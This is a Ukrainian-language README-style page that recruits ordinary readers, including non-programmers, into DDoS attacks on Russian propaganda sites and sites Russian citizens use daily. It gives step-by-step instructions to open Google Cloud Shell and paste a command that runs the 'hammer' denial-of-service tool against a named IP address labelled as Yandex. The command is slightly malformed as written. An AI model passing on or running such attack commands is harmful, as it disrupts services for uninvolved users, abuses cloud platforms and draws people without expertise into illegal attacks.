 
# Справжня інформаційна війна

### Зараз йде війна не тільки реальному але й *інформаційному просторі*. В містах та селах за нас борется ЗСУ та тероборона, а в інтернеті можемо боротися і всі ми, навіть якщо ви далекі від теми програмування.

А все завдяки **DDos атакам** на пропагандистські російські сайти, а також на сайти якими користуються її громадяни в повсякденному житті.

>DDoS attack (*розподілена атака на відмову в обслуговуванні*) - напад на комп'ютерну систему з наміром зробити комп'ютерні ресурси недоступними користувачам, для яких комп'ютерна система була призначена)

Завдяки ним ми можемо *лишити їх можливості черпати фейкову інформацію та поширювати її*. Все що від вас потрібно, перейти [за цим посиланням](https://shell.cloud.google.com/?hl=en_US&fromcloudshell=true&show=terminal) (якщо ви хочете провести атаку *з телефону* , то потрібно завантажити google shell), при необхідності створити гугл акаунт,  і ввести ці команди в *строку термінала* . 
***
### Requierments
- Web Browser
- Google Account
- Keyboard
***
### DDOS >> YANDEX
```
https://github.com/cyweb/hammer && cd hammer \
python3 hammer.py -s 5.255.255.50
```

***
  
Цим саме ви запустите DDos атаку з серверу що буде запущений з вашого пристрою. Ось так, сидячи вдома, ви можете допомогти своїй країні в інформаційному просторі. **Слава Україні!**
> детальніше ознайомитися з даною ситуацією Ви можете за цим посиланням:
> **https://github.com/curated-intel/Ukraine-Cyber-Operations**

